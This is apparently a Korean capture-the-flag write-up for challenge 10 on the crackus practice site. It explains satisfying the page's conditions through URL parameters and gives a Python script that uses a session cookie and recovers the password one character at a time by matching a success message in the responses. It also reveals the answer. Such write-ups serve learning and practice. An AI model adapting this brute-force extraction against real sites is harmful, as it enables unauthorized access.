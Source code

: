 ASCII 함수 없이 고생을 좀 했다. 한 4 글자 찾았을 때, pw가 어느정도 예상이 되서 확인만 했던 것 같다.

pw= crackus , pw는 홈페이지명인 crackus이다.

<img width="542" alt="스크린샷 2020-01-11 오후 2 28 35" src="https://user-images.githubusercontent.com/54495632/72199396-baa32880-347e-11ea-8f97-bf590b0550f1.png">

두 번째 if 를 위한 url 추가

<img width="723" alt="스크린샷 2020-01-11 오후 2 28 44" src="https://user-images.githubusercontent.com/54495632/72199398-c131a000-347e-11ea-9507-d8aac80db84d.png">

첫 번째 $result1에서 TRUE 만 성립하면 가능해서 어떤 것이 와도 관계는 없다.

<img width="307" alt="스크린샷 2020-01-11 오후 4 35 18" src="https://user-images.githubusercontent.com/54495632/72200751-994b3800-3490-11ea-93b8-c81040550164.png">

length 를 찾은 뒤

import requests
pw=''
url ="http://crackus.jeju.kr/chall10.php?"
cookies={'PHPSESSID':'쿠키값필요'}

for i in range(0, 8):
  for j in range(97,128):
       query = "idx="+str(i)+"&ch="+chr(j)
       geturl=url+query
       req = requests.get(geturl,cookies=cookies)
       if((req.text).find("Olleh ~ Admin")>0):
          pw+=chr(j)
          print(pw)
          break
print("Password is "+pw)

다음과 같은 파이썬 코드로 해결 가능하다.
